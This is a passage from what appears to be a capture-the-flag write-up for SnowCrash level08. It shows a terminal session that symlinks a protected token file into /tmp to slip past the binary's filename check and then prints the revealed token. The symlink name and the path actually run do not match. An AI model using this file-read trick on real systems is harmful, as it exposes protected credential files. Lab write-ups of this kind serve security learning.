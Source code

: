 level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/flagg
level08@SnowCrash:~$ ./level08 /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
